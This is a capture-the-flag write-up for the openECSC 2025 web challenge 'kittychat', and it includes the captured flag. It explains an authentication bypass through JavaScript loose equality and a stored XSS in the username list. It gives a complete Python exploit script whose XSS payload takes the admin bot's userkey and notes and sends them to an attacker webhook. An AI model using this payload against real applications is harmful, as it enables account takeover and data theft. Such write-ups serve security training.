 # openECSC 2025

## Challenge: kittychat

## Tags: web

## Difficulty: Medium

## Table of Contents

- [Solution Overview](#solution-overview)
- [Tools Used](#tools-used)
- [Solution](#solution)
- [Solution Script](#solution-script)
- [Flag](#flag)

### Solution Overview

KittyChat is a web chat application vulnerable to XSS through username injection. The key insight is that the WebSocket LOGIN handler has a critical authentication bypass: when `data.key` is omitted (undefined) and the account doesn't exist, the check `accounts[username]?.userkey == data.key` evaluates to `undefined == undefined`, which is TRUE. This allows me to "authenticate" without credentials and bypass the username regex validation that normally blocks HTML characters. I exploit this by: (1) sending a LOGIN message with an HTML-laden username and no key, (2) triggering the admin bot who visits the chat, (3) our malicious username gets rendered via `createContextualFragment()` causing XSS to fire, (4) the XSS steals the admin's notes containing the flag. The flag hints at the intended mitigation: Content Security Policy.

### Tools Used

- Python 3 with `websockets` library
- Browser DevTools for debugging
- [webhook.site](https://webhook.site) for flag exfiltration

### Solution

#### Initial Analysis

When I first examined the application, I found a chat system with WebSocket communication. The client-side code in `chat.js` had an obvious XSS vulnerability in the `updateUsers()` function:

```javascript
function updateUsers(usersList) {
  const documentFragment = document.createRange().createContextualFragment(
    ["Currently online:", ...usersList].map(e=>`<div>${e}</div>`).join('')
  );
  // ... renders directly without escaping
}
```

The `createContextualFragment()` method parses HTML, so if any username contains HTML tags with JavaScript, it will execute. Perfect! Now I just need to inject an XSS payload into a username.

#### The Roadblock: Username Validation

Looking at the server-side WebSocket handler (`ws.js`), I saw that anonymous users' usernames are validated:

```javascript
function setUsername(ws, username, anonymous) {
  if (anonymous && 
      (getUsers().includes(username) || 
       !/^kitten_[0-9]+$/.test(username))) {
    ws.username = `invalid_${Math.random().toString(16).substring(2)}`;
    return false;
  }
  ws.username = username;
  return true;
}
```

The regex `/^kitten_[0-9]+$/` only allows "kitten_" followed by digits. HTML injection? Rejected. I confirmed this with a quick test:

```python
# Sending START with HTML username
ws.send(json.dumps({"type": "START", "username": "kitten_1<img>"}))
# Result: server changed it to "invalid_7e2369fbfaefd"
```

Dead end. Or was it?

#### The Breakthrough: Authentication Bypass

After hitting this wall, I carefully re-examined ALL the code paths. The key was noticing that `setUsername()` is called with `anonymous=false` from the LOGIN handler, which would SKIP the regex check! But how do I trigger LOGIN without valid credentials?

Looking at the LOGIN handler more closely:

```javascript
case "LOGIN":
  if (accounts[data.username]?.userkey == data.key) {
    ws.verified = true;
    setUsername(ws, data.username, false);  // anonymous=false!
  }
```

Wait. What happens if I send a LOGIN message for a username that DOESN'T exist, and I DON'T include the `key` field at all?

- `accounts['nonexistent']` → undefined
- `accounts['nonexistent']?.userkey` → undefined
- `data.key` (when not provided) → undefined
- **`undefined == undefined`** → **TRUE** ✨

JavaScript's loose equality strikes again! The check passes, `ws.verified` gets set to true, and `setUsername()` is called with our arbitrary username WITHOUT validation!

#### Exploitation

With this bypass, the attack becomes straightforward:

1. **Craft XSS payload**: Create a username containing an `<img>` tag with `onerror` that fetches the admin's notes and exfiltrates to our webhook
2. **Send LOGIN without key**: This bypasses authentication and sets our HTML username
3. **Send START**: Broadcasts the user list with our malicious username to all clients
4. **Trigger admin bot**: Send `!admin` message
5. **Wait for XSS**: When the bot joins and renders the user list, our JavaScript executes in the bot's context
6. **Profit**: The XSS steals the bot's userkey and notes, sending the flag to our webhook

The critical sequence in code:

```python
# Step 1: LOGIN bypass with HTML username (no "key" field)
malicious_username = f"kitten_<img src=x onerror=\"fetch('/user').then(...)\">"
await ws.send(json.dumps({
    "type": "LOGIN",
    "username": malicious_username
    # Omitting "key" makes it undefined
}))

# Step 2: START to broadcast users (HTML username included)
await ws.send(json.dumps({"type": "START", "username": "anything"}))

# Step 3: Trigger the bot
await ws.send(json.dumps({"type": "MESSAGE", "text": "!admin"}))
```

When the admin bot visits the chat:
- Bot's browser receives the USERS message
- `updateUsers()` calls `createContextualFragment()` with our HTML username
- Our `<img onerror>` fires
- XSS fetches `/user` to get bot's userkey
- Fetches `/notes` with the userkey to get the flag
- Exfiltrates to our webhook

Flag received: `flag{n1c3_j0b_but_n0w_d0_1t_w1th_csp}`

### Solution Script

```python
#!/usr/bin/env python3
import asyncio
import websockets
import json
import sys

TARGET = "https://524bfd36-75cb-4eea-82ee-234c4a4e7e77.openec.sc:1337"

async def exploit(webhook):
    ws_url = TARGET.replace("https://", "wss://")
    
    # XSS payload that steals bot's notes
    payload = f'<img src=x onerror="fetch(\'/user\').then(r=>r.json()).then(u=>fetch(\'/notes\',{{method:\'POST\',headers:{{\'Content-Type\':\'application/json\'}},body:JSON.stringify({{key:u.userkey}})}}).then(r=>r.json()).then(d=>fetch(\'{webhook}?flag=\'+encodeURIComponent(d.notes))))">'
    
    malicious_username = f"kitten_{payload}"
    
    async with websockets.connect(ws_url, ping_interval=None) as ws:
        # Exploit: LOGIN without key → undefined == undefined → bypass!
        await ws.send(json.dumps({
            "type": "LOGIN",
            "username": malicious_username
        }))
        await asyncio.sleep(0.5)
        
        # Broadcast user list with malicious username
        await ws.send(json.dumps({"type": "START", "username": "x"}))
        await asyncio.sleep(1)
        
        # Trigger admin bot
        await ws.send(json.dumps({"type": "MESSAGE", "text": "!admin"}))
        
        print(f"[+] Exploit sent! Check webhook: {webhook}")
        await asyncio.sleep(15)

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <webhook_url>")
        sys.exit(1)
    asyncio.run(exploit(sys.argv[1]))
```

### Flag

**`flag{n1c3_j0b_but_n0w_d0_1t_w1th_csp}`**
